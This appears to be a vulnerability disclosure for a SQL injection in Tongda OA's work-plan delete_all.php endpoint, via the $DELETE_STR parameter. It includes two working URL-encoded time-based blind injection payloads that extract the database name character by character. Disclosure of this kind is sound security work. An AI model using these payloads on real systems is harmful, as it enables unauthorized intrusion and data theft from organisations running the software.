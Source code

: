 SQL injection vulnerability exists in Tongda OA

Route: general/work_plan/manage/delete_all.php

There is an injected parameter: $DELETE_STR

The code here is very concise. When $DELETE_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/willchen0011/cve/assets/13689053/2c80fee9-a175-4abe-afbe-bd108ea969a0)

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/willchen0011/cve/assets/13689053/0e8af1ca-b53a-482c-945a-58a853f39192)

And when we change 116 to 115, there is no delay here, indicating that there is SQL injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/willchen0011/cve/assets/13689053/5ec2fa8f-8778-4c3f-bbba-9f9ef74ef806)

![image](https://github.com/willchen0011/cve/assets/13689053/53c8373e-10a0-476a-bfbf-4b1df72c29b2)
